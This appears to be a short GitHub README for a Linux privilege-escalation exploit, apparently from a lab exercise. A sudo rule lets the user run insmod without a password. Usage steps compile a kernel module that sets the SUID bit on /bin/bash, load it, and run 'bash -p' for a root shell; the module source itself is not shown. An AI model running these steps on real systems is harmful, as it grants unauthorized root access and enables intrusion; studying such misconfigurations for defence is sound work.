 ## Privilege Escalation via insmod (Linux Kernel Module Exploit)
```
user@ip-10-10-69-32:~$ sudo -l
Matching Defaults entries for user on ip-10-10-69-32:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on ip-10-10-69-32:
    (ALL) NOPASSWD: /sbin/insmod
user@ip-10-10-69-32:~$ 
```
The exploit creates a kernel module (exploit.ko). When loaded via sudo insmod, the module sets the SUID bit on /bin/bash.
Running /bin/bash -p then grants root privileges.

## Usage
1. Compile the Exploit
```
make
```
This generates exploit.ko, the kernel module.

2. Load the Malicious Kernel Module
```
sudo insmod exploit.ko
```
3. Gain Root Access 
```
/bin/bash -p
```
